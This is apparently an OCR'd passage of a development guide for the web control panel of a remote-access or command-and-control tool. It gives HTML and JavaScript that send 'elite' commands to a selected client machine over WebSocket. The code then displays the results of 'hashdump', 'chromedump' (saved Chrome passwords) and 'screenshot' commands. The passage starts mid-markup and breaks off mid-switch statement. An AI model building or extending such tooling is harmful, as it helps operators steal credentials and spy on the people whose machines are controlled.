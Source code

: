 ```html
            <h5>Command Results</h5>
        </div>
        <div class="card-body" id="elite-results-content">
            <!-- Dynamic content -->
        </div>
    </div>
</div>
```

### B. Update JavaScript Handler
**File:** `static/js/app_real.js`

```javascript
// Elite command execution handler
function runElite(command, args = null) {
    // Show loading
    showLoading(`Executing elite command: ${command}`);
    
    // Prepare data
    const data = {
        'command': command,
        'client_id': selectedClient,
        'elite': true
    };
    
    if (args) {
        data['args'] = Array.isArray(args) ? args : [args];
    }
    
    // Send via WebSocket
    socket.emit('elite_command', data);
    
    // Set timeout for response
    setTimeout(() => {
        if (!received_response) {
            showError('Command timeout - may still be executing');
        }
    }, 30000);
}

// Handle elite command results
socket.on('elite_result', function(data) {
    hideLoading();
    
    // Show results area
    $('#elite-results').show();
    
    // Format based on command type
    let html = '';
    
    switch(data.command) {
        case 'hashdump':
            html = formatHashDump(data.result);
            break;
        case 'chromedump':
            html = formatChromePasswords(data.result);
            break;
        case 'screenshot':
            html = formatScreenshot(data.result);
            break;
        case 'ls':
            html = formatEliteLS(data.result);
            break;
```